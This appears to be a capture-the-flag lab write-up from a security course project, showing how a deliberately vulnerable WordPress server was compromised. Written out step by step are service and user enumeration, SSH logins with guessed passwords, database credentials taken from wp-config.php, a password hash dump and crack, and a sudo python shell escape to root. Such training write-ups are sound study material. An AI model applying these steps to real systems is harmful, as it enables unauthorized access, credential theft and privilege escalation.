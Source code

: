 # Red Team: Summary of Operations

## Table of Contents
- [Exposed Services](https://github.com/GarinJTanner/Final-Project/blob/main/Red-Team.md#exposed-services)
- [Critical Vulnerabilities](https://github.com/GarinJTanner/Final-Project/blob/main/Red-Team.md#critical-vulnerabilities)
- [Exploitation](https://github.com/GarinJTanner/Final-Project/blob/main/Red-Team.md#exploitation)

## Exposed Services
Nmap scan results for each machine reveal the below services and OS details:  
~~~
nmap -sV 192.168.1.110  
~~~

![red111](https://user-images.githubusercontent.com/32025331/155897831-3ed2d82f-ea06-4b2b-88a5-ca45a22de921.PNG)   

This scan identifies the services below as potential points of entry:  
  
Target 1  
- OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)  
- Apache httpd 2.4.10 ((Debian))  

## Critical Vulnerabilities

The following vulnerabilities were identified:

Target 1
- Default wordpress folder names
- Weak server password
- Unsalted hashed passwords
- Unpatched WordPress software
  
 ## Exploitation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:


### flag1{b9bbcb33e11b80be759c4e844862482d}
Tools used: dirb, wpscan  
- Using dirb we were able to find a wordpress page: 192.168.1.110/wordpress  

![red10](https://user-images.githubusercontent.com/32025331/155897106-083e1297-c5d6-490f-af59-1ac251500554.PNG)


- From there we ran wpscan: 
~~~
wpscan -–url http://192.168.1.110/wordpress --wp-content-dir -at -eu
~~~
![red13](https://user-images.githubusercontent.com/32025331/155897592-cb46a654-efc7-48f6-a220-833e3841df88.PNG)  

We then found two login names: Steven and Michael  
![red14](https://user-images.githubusercontent.com/32025331/155897593-ce8c5a5b-778a-486d-9d9d-c38249113aa4.PNG)  

By sheer luck, we guessed the password without brute force:  
~~~
ssh michael@192.168.1.110
Password: michael
cd ../../var/www/html
grep -RE flag1
~~~
![red222](https://user-images.githubusercontent.com/32025331/155898152-706f9b4c-607d-4a1a-83f1-742a2217463d.PNG)  
  
  
**flag2{fc3fd58dcdad9ab23faca6e9a36e581c}**  
Using the same credentials, we SSH into the webserver:
~~~ 
ssh michael@192.168.1.110
Password: michael
cd ../../var/www/
grep -RE flag2
~~~
![red15](https://user-images.githubusercontent.com/32025331/155897666-7187d4ef-e7dc-4231-985f-f4c87a644dfa.PNG)


**flag3{afc01ab56b50591e7dccf93122770cd2}**  
**flag4{715dea6c055b9fe3337544932f2941ce}**  
Tools used: SSH, MySQL  
~~~
ssh michael@192.168.1.110
Password: michael
cd /var/www/html/wordpress
nano wp-config.php  
~~~

![red444](https://user-images.githubusercontent.com/32025331/155898231-ca6b815e-0a07-46dd-a844-b6eaf18d26cb.PNG)  
Within wp-config.php we were able to find credentials to a MySQL database.
~~~
mysql -u root -pR@v3nSecurity
show databases;
use wordpress;
show tables;
select post_content from wp_posts;
~~~
![red443](https://user-images.githubusercontent.com/32025331/155898281-266c6765-2025-49e4-96d2-a7b4f359dbd8.PNG)  
  
**Flag 4 from Steven’s account**  
- Tools used: SSH, MySQL, johntheripper  
- Using the MySQL credentials from before:  
~~~
mysql -u root -pR@v3nSecurity
show databases;
use wordpress;
show tables;
select user_login, user_pass from wp_users;
~~~  
![red555](https://user-images.githubusercontent.com/32025331/155898316-716315ab-4684-4dbe-bbad-8c096ebbd92a.PNG)  
We found the hashed passwords within the wp_users table.  
Exit back out to Kali. From here we can use John the Ripper:  
![red6](https://user-images.githubusercontent.com/32025331/155894961-05ed83c8-ab77-40f0-b8e0-33995815607d.PNG)  
SSH into the webserver using Steven’s credentials:  
~~~
Ssh steven@192.168.1.110
Password: pink84
~~~
Now we run a python exploit:
~~~
sudo /usr/bin/python -c 'import os;os.system("/bin/sh")'
cd root
cat flag4.txt
~~~
[picture]
